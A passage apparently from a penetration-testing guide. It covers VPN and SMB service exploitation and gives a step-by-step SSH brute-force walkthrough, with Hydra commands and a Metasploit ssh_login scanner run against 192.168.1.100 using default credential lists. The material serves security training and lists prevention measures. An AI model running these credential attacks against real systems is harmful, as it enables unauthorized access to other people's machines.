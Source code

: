3. **VPN Service Exploitation**:
   - Attack vectors: Pre-auth vulnerabilities, weak credentials
   - Vulnerabilities: Implementation flaws, outdated software
   - Tools: Exploit-specific tools, custom scripts
   - Techniques: Exploitation of known CVEs, credential attacks
   - Prevention: Patching, MFA, restricted access

```bash
# Example: SSH brute force attack with Hydra

# Step 1: Create username and password lists
echo "root
admin
user
administrator" > users.txt

echo "password
123456
admin
qwerty
welcome" > passwords.txt

# Step 2: Run Hydra against SSH
hydra -L users.txt -P passwords.txt ssh://192.168.1.100 -t 4

# Step 3: Run Hydra with additional options
hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.100 -t 4
# -e nsr: n = null password, s = same as username, r = reversed username

# Step 4: Target specific username
hydra -l admin -P passwords.txt ssh://192.168.1.100 -t 4

# Step 5: Use Metasploit for SSH scanning
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.100
set USER_FILE users.txt
set PASS_FILE passwords.txt
set VERBOSE true
run
```

### 5.2 File Sharing Service Exploitation

Attacking network file sharing services:

1. **SMB/CIFS Exploitation**:
   - Attack vectors: Weak authentication, unpatched vulnerabilities
   - Vulnerabilities: EternalBlue, SMBGhost, misconfiguration
   - Tools: Metasploit, CrackMapExec, SMBMap
   - Techniques: Exploitation of known CVEs, null sessions, relay attacks
   - Prevention: Patching, proper configuration, network segmentation
